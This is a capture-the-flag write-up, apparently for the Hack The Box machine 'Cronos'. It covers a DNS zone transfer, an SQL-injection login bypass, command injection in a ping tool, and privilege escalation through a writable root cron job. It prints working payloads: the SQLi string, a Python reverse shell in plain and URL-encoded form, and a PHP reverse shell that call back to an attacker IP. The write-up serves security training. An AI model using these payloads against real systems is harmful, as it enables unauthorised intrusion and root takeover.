# Cronos

## Service Enumeration

`nmapAutomator.sh -H 10.10.10.13 -t all`



We can perform a DNS zone transfer, guessing that the domain is `cronos.htb`:

`dig axfr @10.10.10.13 cronos.htb`



Here, we uncover some subdomains for `10.10.10.13`. Let's add them to our `/etc/hosts` file.



Now, going to www.cronos.htb and admin.cronos.htb yields a valid webpage.

## Exploitation

The `admin.cronos.htb` login page is vulnerable to SQL injection. Using the payload:

`username=' or 1=1;#&password=`

We can bypass the authentication. Note that this does not work on the password field.



We get access to the following tool:



If we examine the POST request, we see that `ping -c 1` is sent as the `command parameter`. It is possible that the server is not sanitizing the input and reflecting the `command` parameter into the OS command.



Indeed, changing to `-c 2` changes the command executed!



We now have an RCE vulnerability. Executing the `which python` command shows that Python is installed on the server.



We can use a Python reverse shell payload:

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

After URL encoding, we can edit the `command` parameter:

`command=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.23%22%2C4242%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27&host=`

On our Netcat listener, we receive the reverse shell





## Privilege Escalation

We can use LinPEAS to enumerate.

We find the following cron job that runs every minute:



The script run is a PHP script:



We can change this to our custom PHP payload:

```php
<?php $sock=fsockopen("10.10.14.23",4242); $proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>
```



The next time the cron job is run, we obtain a root shell on our listener.





